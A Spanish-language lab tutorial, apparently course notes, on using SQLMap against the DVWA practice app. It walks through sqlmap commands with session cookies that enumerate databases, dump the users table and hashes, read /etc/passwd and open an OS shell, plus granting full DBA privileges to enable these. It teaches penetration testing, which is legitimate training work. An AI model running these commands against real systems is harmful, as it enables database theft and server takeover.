> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]

---
# SQL Injection - Automatización con SQLMap (DVWA)

# 💾 SQL Injection - Automatización con SQLMap

 
 

## 📖 ¿Qué es SQLMap?

 

**SQLMap** es una popular herramienta de prueba de penetración de código abierto diseñada para automatizar la detección y explotación de vulnerabilidades de inyección SQL en aplicaciones web. Es una herramienta muy útil para evaluar la seguridad de una aplicación web y encontrar posibles puntos débiles relacionados con la inyección SQL.

 

> [!note]
> 
 
> #### 🔑 Aspectos Clave de SQLMap:
> 

> 

> 
> * 
> **Detección automática de inyección SQL:** SQLMap tiene la capacidad de detectar automáticamente la presencia de inyección SQL en una aplicación web objetivo. Utiliza diversas técnicas, como basarse en errores de sintaxis SQL, análisis de tiempo y análisis basado en contenido para identificar si una aplicación es vulnerable a la inyección SQL.
> 
 
> * 
> **Soporte para diferentes bases de datos:** SQLMap es compatible con una amplia gama de sistemas de gestión de bases de datos (DBMS), incluyendo MySQL, Oracle, PostgreSQL, Microsoft SQL Server, SQLite, etc. Esto lo convierte en una herramienta versátil para realizar pruebas en diferentes entornos.
> 
 
> * 
> **Explotación de vulnerabilidades:** Una vez que SQLMap detecta una vulnerabilidad de inyección SQL, puede aprovecharla para extraer información confidencial de la base de datos, como nombres de usuario, contraseñas, datos personales, etc. También puede realizar acciones más avanzadas, como la ejecución remota de comandos en el sistema operativo subyacente.
> 
 
> * 
> **Amplia variedad de técnicas de inyección:** SQLMap utiliza diferentes técnicas de inyección SQL para aprovechar las vulnerabilidades encontradas en la aplicación objetivo. Esto incluye técnicas basadas en uniones, basadas en error, ciegas, basadas en tiempo, basadas en booleanos, entre otras. Estas técnicas ayudan a superar las defensas de seguridad y obtener acceso a datos sensibles.
> 
 
> * 
> **Opciones de personalización y automatización:** SQLMap ofrece una amplia gama de opciones de configuración y personalización que permiten adaptar las pruebas a las necesidades específicas. También admite la automatización de tareas mediante scripts y la integración con otras herramientas y marcos de trabajo de pruebas de penetración.
> 

> 

 

> [!warning]
> 
 
> **⚠️ Advertencia Importante:**
> 
> Es importante tener en cuenta que SQLMap es una herramienta poderosa, pero también puede ser peligrosa si se utiliza de manera inapropiada o **sin el permiso del propietario del sistema objetivo**.
> 
> Solo debe utilizarse en entornos de prueba controlados o con autorización explícita.
> 

 

 
 

## 🚀 Uso de SQLMap con DVWA

 

Para la práctica vamos a usar DVWA y Kali Linux.

 

### 📋 Paso 1: Capturar la Petición con cURL

 

 
1. Iniciamos en DVWA y vamos a la zona "SQL Injection"
 
2. Pulsamos **F12** en el navegador
 
3. Enviamos una ID y copiamos como cURL el paquete que se genera
 

 



 

### 🔧 Paso 2: Convertir cURL a SQLMap

 

Ahora vamos al terminal de Linux, pegamos el portapapeles y modificamos la línea obtenida para el uso con SQLMap de la siguiente forma:

 



 

```bash
$ sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=...; security=low" \
 --schema
```

 

> [!tip]
> 
 
> #### 🔑 Parámetros Básicos de SQLMap:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `-u`
> 
> 
> 
> `--cookie`
> 
> 
> 
> `--schema`
> 
> 
> 
> `--batch`
> 
> 
> 
> 
> | Parámetro | Descripción |
> | --- | --- |
> | | URL objetivo con parámetro vulnerable |
> | | Cookie de sesión (necesaria para DVWA autenticado) |
> | | Enumerar el esquema de la base de datos |
> | | No hacer preguntas interactivas (usar valores por defecto) |
> 
 

 

### 🔍 Paso 3: Enumerar con Diferentes Parámetros

 

A continuación vamos a ir probando los siguientes parámetros:

 

#### 1. Ver tablas que pertenecen a la base de datos:

 

```bash
$ sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="..." \
 --tables -D dvwadb
```

 

#### 2. Extraer el contenido de la tabla users:

 

```bash
$ sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="..." \
 --dump -T users -D dvwadb
```

 

**Vamos a guardar los hashes pero NO vamos a crackearlos.**

 

#### 3. Extraer toda la información posible:

 

```bash
$ sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="..." \
 --batch --forms --dump
```

 

> [!tip]
> 
 
> #### 📊 Tabla de Parámetros de Enumeración:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `--dbs`
> 
> `--dbs`
> 
> 
> `-D`
> 
> `-D dvwadb`
> 
> 
> `--tables`
> 
> `--tables -D dvwadb`
> 
> 
> `-T`
> 
> `-T users`
> 
> 
> `--columns`
> 
> `--columns -T users -D dvwadb`
> 
> 
> `--dump`
> 
> `--dump -T users -D dvwadb`
> 
> 
> `--dump-all`
> 
> `--dump-all`
> 
> 
> 
> | Parámetro | Descripción | Ejemplo |
> | --- | --- | --- |
> | | Listar todas las bases de datos | |
> | | Especificar base de datos | |
> | | Listar tablas de la BD | |
> | | Especificar tabla | |
> | | Listar columnas de tabla | |
> | | Extraer datos de tabla | |
> | | Extraer todas las tablas | |
> 
 

 

 
 

## 🔐 Parámetros Avanzados (Requieren DBA)

 

**Otros parámetros:** (No funcionan en DVWA sin permisos DBA)

 

### 🔍 Comprobar si tenemos permisos DBA

 

Permitiría leer archivos del sistema y ejecutar comandos o un Shell:

 

```bash
$ sqlmap -u "..." --cookie="..." --is-dba
```

 

En DVWA nos pone **False**, por lo que no disponemos de esos permisos.

 

### 📄 Para leer archivos en el sistema (Con permisos DBA):

 

```bash
$ sqlmap -u "..." --cookie="..." --file-read "/etc/passwd"
```

 

### 💻 Para obtener un shell (Con permisos DBA):

 

```bash
$ sqlmap -u "..." --cookie="..." --os-shell
```

 

> [!warning]
> 
 
> #### ⚠️ Capacidades con Permisos DBA:
> 
 
> Si el usuario de la base de datos tiene privilegios DBA (Database Administrator), SQLMap puede:
> 

> 
> * 🔴 Leer archivos del sistema (`--file-read`)
> 
> * 🔴 Escribir archivos en el sistema (`--file-write`)
> 
> * 🔴 Ejecutar comandos del sistema operativo (`--os-cmd`)
> 
> * 🔴 Obtener una shell interactiva (`--os-shell`)
> 
> * 🔴 Comprometer completamente el servidor
> 

> 

 

### 🔁 Ejercicio Adicional

 

**Repetir la práctica pero esta vez contra el menú "SQL Injection (Blind)" de la web.**

 

```bash
$ sqlmap -u "http://dvwa.local/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
 --cookie="..." \
 --batch --dump
```

 

 
 

## 🧙 SQLMap Wizard - Modo Asistido

 

SQLMap incluye un modo wizard (asistente) que guía paso a paso en la configuración del ataque:

 

```bash
$ sqlmap -u "http://www.target" --wizard
```

 



 

### 📝 Preguntas del Wizard:

 

#### 1. Pregunta los datos en caso de ser request POST:

 



 

#### 2. La dificultad del test:

 



 

> [!note]
> 
 
> #### 🎯 Niveles de Test:
> 
 

> 
> * **1 (Default):** Tests básicos, rápido
> 
> * **2:** Tests moderados
> 
> * **3:** Tests extensivos
> 
> * **4:** Tests muy extensivos
> 
> * **5 (Max):** Todos los tests posibles, muy lento
> 

> 

 

#### 3. La enumeración que queremos llevar a cabo:

 



 

 
 

## 🔓 Conceder Privilegios DBA (Solo para Práctica)

 

Para poder probar los parámetros avanzados de SQLMap, necesitamos conceder privilegios DBA al usuario `dvwa`:

 

### Paso 1: Acceder como root a MySQL

 



 

```bash
$ mysql -u root -p
```

 

### Paso 2: Ver la lista de usuarios de la base de datos

 



 

```sql
mysql> SELECT user, host FROM mysql.user;
```

 

Y cargamos la base de datos sobre la que vamos a trabajar:

 



 

```
mysql> USE dvwadb;
```

 

### Paso 3: Ver los permisos actuales del usuario

 



 

```
mysql> SHOW GRANTS FOR 'dvwa'@'localhost';
```

 

### Paso 4: Conceder permisos para todo al usuario dvwa

 



 

```
mysql> GRANT ALL PRIVILEGES ON *.* TO 'dvwa'@'localhost' WITH GRANT OPTION;
```

 

### Paso 5: Guardar los cambios

 



 

```
mysql> FLUSH PRIVILEGES;
```

 

### Paso 6: Comprobar que se han guardado los cambios

 


 

```
mysql> SHOW GRANTS FOR 'dvwa'@'localhost';
```

 

> [!warning]
> 
 
> **⚠️ Advertencia de Seguridad:**
> 
> Conceder privilegios DBA a un usuario de aplicación web es una **mala práctica de seguridad** y solo debe hacerse en entornos de prueba controlados.
> 
> En producción, los usuarios de aplicaciones web deben tener los **mínimos privilegios necesarios** (SELECT, INSERT, UPDATE, DELETE) y nunca privilegios administrativos.
> 

 

### 🧪 Probar Capacidades DBA con SQLMap

 

Ahora que el usuario `dvwa` tiene privilegios DBA, podemos probar los comandos avanzados:

 

```bash
# Verificar privilegios DBA
$ sqlmap -u "..." --cookie="..." --is-dba
# Debería devolver: TRUE

# Leer archivo del sistema
$ sqlmap -u "..." --cookie="..." --file-read "/etc/passwd"

# Obtener shell interactiva
$ sqlmap -u "..." --cookie="..." --os-shell
```

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ SQLMap es una herramienta de automatización de SQLi muy poderosa
> 
> * ✅ Soporta múltiples motores de bases de datos (MySQL, MSSQL, PostgreSQL, etc.)
> 
> * ✅ Puede detectar y explotar SQLi automáticamente
> 
> * ✅ Requiere cookies de sesión para aplicaciones autenticadas
> 
> * ✅ Puede enumerar BDs, tablas, columnas y extraer datos
> 
> * ✅ Con privilegios DBA puede leer archivos y ejecutar comandos del SO
> 
> * ✅ El modo wizard facilita el uso para principiantes
> 

> 
 
> ### 🔑 Parámetros Esenciales de SQLMap:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `-u URL`
> 
> 
> 
> `--cookie`
> 
> 
> 
> `--dbs`
> 
> 
> 
> `--tables -D BD`
> 
> 
> 
> `--dump -T tabla -D BD`
> 
> 
> 
> `--batch`
> 
> 
> 
> `--is-dba`
> 
> 
> 
> `--file-read`
> 
> 
> 
> `--os-shell`
> 
> 
> 
> `--wizard`
> 
> 
> 
> 
> | Parámetro | Función |
> | --- | --- |
> | | URL objetivo |
> | | Cookie de sesión |
> | | Enumerar bases de datos |
> | | Enumerar tablas |
> | | Extraer datos |
> | | Modo no interactivo |
> | | Verificar privilegios DBA |
> | | Leer archivos del sistema |
> | | Obtener shell del SO |
> | | Modo asistido |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Anterior: 07-02 - SQL Injection (Union-based)
> 
> → Siguiente: 07-04 - SQL Injection (Blind)
> 
> ↑ Volver al Índice del Módulo
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]
